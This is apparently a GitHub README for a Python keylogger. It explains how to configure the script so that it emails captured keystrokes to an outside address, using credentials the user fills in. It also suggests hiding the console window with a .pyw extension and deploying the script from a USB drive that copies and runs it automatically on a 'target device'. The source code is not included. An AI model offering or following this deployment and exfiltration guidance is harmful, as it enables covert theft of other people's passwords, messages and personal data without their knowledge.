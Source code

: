 # python-keylogger


### Prerequisites
The script needs the python package ```pynput``` to be installed and a ```json.txt``` file at the same folder. The keystrokes are saved in the file.

The following parts need to be filled out. At the ```printit``` method:

```
sendemail(from_addr = FROM_ADDR, to_addr_list = [TO_ADDR], cc_addr_list = [CC_ADDR], subject = 'Update', message = '\n'+ msg, login=EMAIL_USERNAME, password = EMAIL_PASSWORD)
```

- ```FROM_ADDR``` needs to be the email address that you will be sending the emails from
- ```TO_ADDR``` needs to be the email address/addresses that you are sending the emails too
- ```CC_ADDR``` is the same
- ```login``` is your email's login username
- ```password``` is the password you use for logging in the email

### Extra stuff you could do
- Change the extension to ```.pyw``` to hide the console/terminal when executing
- Add shebang and proper file permissions when using on Linux machines
- Download the ```pynput``` package and put the package's folder at the same folder as the script and place them in a USB drive.
  You can then write scripts to automatically copy and execute the script on the target device.

Know that the script isn't complete and be prepared to face some bugs. I haven't experienced any yet.
